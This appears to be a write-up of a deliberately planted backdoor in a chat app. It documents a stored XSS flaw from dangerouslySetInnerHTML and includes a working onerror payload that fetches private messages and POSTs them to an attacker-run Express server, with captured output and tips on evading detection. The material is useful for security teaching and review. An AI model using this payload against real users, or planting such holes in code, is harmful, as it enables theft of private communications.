 # Backdoor 1: Data Exfiltration

## Description

This backdoor exploits a persistent cross-site scripting (XSS) vulnerability to exfiltrate stored client-side data, compromising the confidentiality of users in the chat system.

## Technical Details

Messages are stored client-side in a volume that users can retain for a configurable duration. The frontend retrieves these messages using a `/get_messages` endpoint, which extracts a message JSON object from a Docker volume. These messages are then displayed inside a React component using `dangerouslySetInnerHTML`. By sending a message containing malicious script, whether public or private, an attacker can force the receiving clients to execute this script whenever they view their messages. In the case of a private message, this allows targeted attacks on specific users.

Crucially, this malicious script can itself call `/get_messages`, but instead of displaying the data, it can exfiltrate the messages to an unauthorized remote server. The code snippets at the end of this document provide a comprehensive understanding of the vulnerability enabling this backdoor.

## Objectives

This backdoor violates several key security principles:

- Confidentiality: It allows unauthorized access to private messages intended only for specific recipients.
- Integrity: The attacker can potentially modify or inject false messages into the chat system.
- Authentication: The backdoor bypasses any authentication measures in place for accessing private messages.
- Non-repudiation: Users could deny sending certain messages, as the attacker could impersonate them.
- Trust: It undermines the trust users place in the system's ability to keep their communications private.

## Exploitation Method (Proof of Concept)

1. Attacker identifies that messages are displayed using `innerHTML` and not `innerText`.

![Image 1.1](appendix/Image%201.1.png)

<p align="center"><em>Figure 3.1: A simple XSS test. The attacker refreshes the page and realises that the message is stored, so it's persistent</em></p>

2. Attacker monitors their network tab to see what request the frontend is making to the backend.

![Image 1.2](appendix/Image%201.2.png)

<p align="center"><em>Figure 1.2: The <code>`/get_messages`</code> endpoint catches the attacker's eye!</em></p>

3. Attacker sets up a very basic server to retrieve responses.

```js
const express = require("express");
const bodyParser = require("body-parser");
const cors = require("cors");
const app = express();
const port = 3000;

app.use(cors());
app.use(bodyParser.json());

app.post("/return", (req, res) => {
  console.log("Received POST request at /return");
  console.log("Request body:", req.body);
  res.status(200).send("Request received and logged");
});

app.listen(port, () => {
  console.log(`Server listening at http://localhost:${port}`);
});


...
[ 1 16:38:00 john-wayne-gacy ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
```

4. Attacker crafts a special XSS attack which will make a request to `/get_messages` and send the response to their server.

```html
<img
  src="x"
  onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))'
/>
```

5. Attacker waits some time for other clients to send some private messages

![Image 1.3](appendix/Image%201.3.png)

<p align="center"><em>Figure 1.3: Clients 2 and 3 are speaking privately, thinking that client 1 can't see their messages</em></p>

6. Attacker sends a private XSS attack to client 2 and waits for them to refresh their messages.

![Image 1.4](appendix/Image%203.3.png)

<p align="center"><em>Figure 1.4: Client 2 retrieves the XSS attack!</em></p>

7. Victim client loads XSS attack, which forces them to send their messages to the attacker's server.

```json
[ 0 16:51:34 the-zodiac-killer ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
Received POST request at /return
Request body: {
  messages: [
    {
      message: 'hi client 3, we can talk in private here!!!',
      sender: 'kOCmwXHM5C/pNO5nW+FTdDxCFr6CHnT75u6doHno+7o=',
      timestamp: 1727767376.9362664
    },
    {
      message: 'hi client 2, yes we can! client 1 will never be able to see this!',
      sender: 'YEym18KEGEn68nr3MHSnOCN+h5thptu+amZA7Y1HJvo=',
      timestamp: 1727767403.5918934
    },
    {
      message: `<img   src="x"   onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))' />`,
      sender: 'C7G1Mrjqk6nDlS5u7Fv3R221UovWf9HzffZQtEzrOt4=',
      timestamp: 1727767593.7110288
    }
  ]
}
```

<p align="center"><em>Figure 1.5: Attacker successfully retrieves private 'secure' messages from a simple XSS vulnerability</em></p>

## Detection Challenges

- The vulnerability hinges on a single, easily overlooked line in approximately 4,000 lines of code: the use of `dangerouslySetInnerHTML`.
- Much of the code enabling this exploit serves legitimate purposes within the application. The storage and retrieval of data in client volumes is necessary for the messaging functionality.
- The XSS payload can be obfuscated or split across multiple messages to evade simple pattern-matching detection methods.
- The actual data exfiltration occurs client-side, making it difficult to detect through server-side logging or monitoring.
- The attack leaves minimal traces in server logs, as it primarily exploits client-side vulnerabilities.
- Regular security scans might not detect this vulnerability if they're not specifically configured to check for XSS in React applications.

## Code Snippets

```jsx
// ... (rest of react component)
<p
  className="break-words"
  dangerouslySetInnerHTML={{ __html: messageContent }}
></p>
```

<p align="center"><em>Figure 1.1: Code Snippet showing use of <code>dangerouslySetInnerHTML</code></em></p>

```python
@app.route('/get_messages', methods=['GET'])
def get_messages():
    if MESSAGE_EXPIRY_TIME == 0:
        # Messages are not stored; return the current messages and clear them
        messages = client_instance.incoming_messages.copy()
        client_instance.incoming_messages.clear()
        return jsonify({'messages': messages})
    else:
        current_time = time.time()
        with client_instance.message_lock:
            if MESSAGE_EXPIRY_TIME > 0:
                # Remove expired messages
                client_instance.incoming_messages = [
                    msg for msg in client_instance.incoming_messages
                    if current_time - msg['timestamp'] <= MESSAGE_EXPIRY_TIME
                ]
                client_instance.save_messages()

            messages = client_instance.incoming_messages.copy()
        return jsonify({'messages': messages})
```

<p align="center"><em>Figure 1.2: Code Snippet showing the client's logic to send back messages</em></p>
